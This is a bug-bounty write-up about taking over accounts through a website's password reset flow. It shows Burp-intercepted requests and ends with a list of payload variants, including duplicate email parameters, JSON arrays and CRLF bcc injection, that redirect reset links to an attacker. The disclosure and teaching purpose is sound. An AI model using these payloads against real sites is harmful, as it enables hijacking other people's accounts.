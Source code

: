   ![Reset-Password](https://user-images.githubusercontent.com/106372696/171008056-dcd80d53-b8c0-4373-ab92-1a7d75615122.png)


Hi Everyone,

This is the story about how I managed to takeover some one account using password reset flaw on the website.While browsing the website I need to signin to the account but It was a long time ago since I logged into my account.so, I can't remember my password so I decided to reset my password, but suddendly I decide to play with password reset functionality if I can reset someone's account.
	
##### Attempt 1:
I intercept the traffic with Burpsuite and capture the request and saw something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "something@email.com"
}

```
I changed the request body something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com",
       "email" : "myemail2@email.com"
}
```

And of course its failed only reset token sent to myemail1 account not myemail2 account.

##### Never Give Up:
After that I tried some other methods like following

```bash
POST /ResetPassword

...
...

{
	"email" : "myeamil1@email.com%20myemail2@email.com"
}
```

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com%20cc:myemail2@email.com"
}
```

#### One Last Ride...
Ok, thats it I was ready to give up but I remember one blog post that I read, it mentioned you can use **JSON Table** That will help you to send set of elements in array so, I give it a try luckily It sent password reset link to my attacker account and I can able to reset victim's account.

![nofinal](https://user-images.githubusercontent.com/106372696/171010957-5694d6ff-aa51-434e-a6c4-8cd31e005200.png)


Then I decided to send the report to their security team, but they don't have VDP or RDP on any crowdsource platform like Hackerone or Bugcrowd.So, I search **security.txt**(RFC 9116) and find their security team email that tells me where I should report related to security issues. I sent my finds and they reward me through btc (they don't hall of fame :( ).

	Note: You can find security.txt by https://www.website.com/.well-known/security.txt
	
##### Other methods to check password related issues:
```bash
POST /ResetPassword

...
...

email=victim@email.com&email=attacker@email.com
```

```bash
POST /ResetPassword

...
...

email=victim@email.com%20email=attacker@email.com
```

```bash
POST /ResetPassword

... 
...

email=victim@email.com|email=attacker@email.com 
```

```bash
POST /ResetPassword 

... 
...

email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"  
```

I don't do bug bounties but this one I accidently try my luck and got success..Thanks for Reading this article. I hope you all enjoy this one. cheers :)

Usefull Resources :

https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

https://anugrahsr.github.io/posts/10-Password-reset-flaws/

https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7?gi=5037f755d2b2
